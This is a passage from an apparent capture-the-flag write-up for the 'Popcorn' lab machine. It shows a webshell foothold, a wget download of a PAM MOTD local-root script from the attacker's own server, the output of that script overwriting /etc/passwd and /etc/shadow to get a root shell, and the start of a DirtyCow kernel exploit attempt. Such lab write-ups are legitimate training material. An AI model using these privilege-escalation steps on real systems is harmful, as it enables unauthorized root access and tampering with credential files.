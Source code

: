 Basically it cleans up after itself, and then launches a shell.

#### Run

I gave the box a reset, re-uploaded a webshell, got a shell, with pty. Then I uploaded the script using a Python webserver (`python3 -m http.server 80`) and `wget`:

```

www-data@popcorn:/dev/shm$ wget 10.10.14.14/pam_motd.sh
--2020-06-21 22:28:38--  http://10.10.14.14/pam_motd.sh
Connecting to 10.10.14.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3043 (3.0K) [text/x-sh]
Saving to: `pam_motd.sh'

100%[======================================>] 3,043       --.-K/s   in 0.004s  

2020-06-21 22:28:38 (761 KB/s) - `pam_motd.sh' saved [3043/3043]

```

The script runs and returns a root shell:

```

www-data@popcorn:/dev/shm$ bash pam_motd.sh 
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: 
root@popcorn:/dev/shm#

```

### Dirty Cow

Given the age of this box, there are surely several kernel exploits to go after here. For example, `uname -a` shows it is running `2.6.31`:

```

root@popcorn:/dev/shm# uname -r
2.6.31-14-generic-pae

```

It’s likely vulnerable to [DirtyCow](https://github.com/dirtycow/dirtycow.github.io/wiki/Patched-Kernel-Versions). The page for it has a [list of POCs](https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs). I’ve had the best luck with `dirty.c`. I can grab [this code](https://github.com/FireFart/dirtycow/blob/master/dirty.c) and compile it on Popcorn:

